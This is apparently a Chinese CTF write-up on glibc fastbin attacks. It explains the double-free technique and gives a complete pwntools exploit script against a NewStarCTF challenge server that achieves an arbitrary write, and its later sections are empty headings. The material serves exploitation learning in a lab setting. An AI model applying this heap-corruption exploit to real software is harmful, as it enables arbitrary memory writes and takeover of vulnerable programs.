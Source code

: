 ```yaml
---
title: Fastbin Attack
tags: [ctf-pwn,heap]
date: 2023-10-24 10:58:00
categories: [ctf-pwn]
excerpt: fastbin的几种攻击方法
---
```


#### Fastbin

##### Double Free

以buuoj NewStarCTF 2023 week 4 Double为例

目的是向任意地址写入值

经典的网图

![](/img/ctf-pwn/Fastbin/1.jpg)

原理在于，三次free之后，第一次把chunk1 malloc出来之后，可以对content部分进行编辑，而content对于第三次malloc出来的chunk1是fd，这个fd在第四次malloc时，会从自己写的地址进行malloc，然后这个malloc出来的块的content又是可编辑的。这样就实现了任意地址写。

```python
from pwn import *

#p = process("./Double")
p = remote("node4.buuoj.cn", 25942)

#gdb.attach(p, "b *0x080486B5")

def add(idx, content):
  p.recvuntil(b">\n")
  p.sendline(b"1")
  p.recvuntil(b"Input idx\n")
  p.sendline(idx)
  p.recvuntil(b"Input content\n")
  p.sendline(content)
  

def free(idx):
  p.recvuntil(b">\n")
  p.sendline(b"2")
  p.recvuntil(b"Input idx\n")
  p.sendline(idx)

def check():  
  p.recvuntil(b">\n")
  p.sendline(b"3")
  
  
add(b'1', b"aaaa")
add(b'2', b"bbbb")
free(b'1')
free(b'2')
free(b'1')

add(b'1', p64(0x602070 - 16))

add(b'2', b'dddd')

add(b'3', b'eeee')

add(b'4', p64(1638))

check()

p.interactive()
```



##### House of Spirit



##### Alloc to Stack



##### Arbitary Alloc